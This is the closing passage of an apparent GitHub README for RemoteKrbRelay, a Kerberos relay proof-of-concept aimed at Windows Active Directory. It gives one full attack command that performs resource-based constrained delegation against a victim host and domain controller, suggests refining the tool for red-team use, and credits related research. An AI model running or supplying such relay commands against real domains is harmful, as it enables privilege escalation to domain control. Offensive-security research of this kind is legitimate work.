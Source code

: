 - [ ] U can get TGT in AP-REQ. What if des cryptography is used?
```shell
.\RemoteKrbRelay.exe -rbcd -victim win10.vostok.street -target dc01.vostok.street -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -spn krbtgt/root.apchi -cn FAKEMACHINE$
```

# Conclusion
The vulnerability is quite serious. Note that this is the minimum POC. You should refine it if you want to use it stably on your Red Team projects. 

# Acknowledgements
- Repos [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), with their help I was able to figure out Kerberos Relay
- [BH Asia 2024 Talk](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519)
- [Silver Potato](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/)

Thanks for not posting the POC on CertifiedDCOM and SilverPotato, I've been stoked to do them on those articles :D
